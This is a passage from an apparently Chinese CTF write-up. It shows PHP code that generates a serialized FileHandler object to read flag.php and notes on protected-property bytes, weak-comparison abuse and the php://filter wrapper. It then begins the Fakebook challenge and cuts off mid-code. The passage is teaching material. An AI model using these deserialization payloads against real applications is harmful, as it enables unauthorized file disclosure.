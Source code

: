 ```php
<?php
 
class FileHandler {
 
    public $op = 2;
    public  $filename = "flag.php";
    public  $content;
}
 
$a = new FileHandler();
$b = serialize($a);
echo $b;
 
?>
```

或者用一开始提到的16进制方法

得到payload后修改不可见字符

```php
<?php
highlight_file(__FILE__);
	class FileHandler {
        protected $op = 2;
        protected $filename = "flag.php";
        protected $content;
    }
    $a = new FileHandler();
        $b = serialize($a);
        echo($b);
?>
```

主要知识点：1.protected/private类型的属性序列化后产生不可打印字符，public类型则不会

2.PHP7.1+对类的属性类型不敏感

3.强弱类型比较“===”、“==”的利用

4.在filename那里还可以使用php://filter伪协议读取，因为file_get_content()可以读取php://filter伪协议。

# [网鼎杯 2018]Fakebook

打开题目

一个登陆界面和一个注册界面，打开的第一反应是sql注入，可是没找到注入点。

扫描网站发现robots.txt,得到user.php.bak。

下载得到：

```php
<?php

class UserInfo
{
    public $name = "";
    public $age = 0;
    public $blog = "";

    public function __construct($name, $age, $blog)   //构建函数
    {
        $this->name = $name;
        $this->age = (int)$age;
        $this->blog = $blog;
    }

```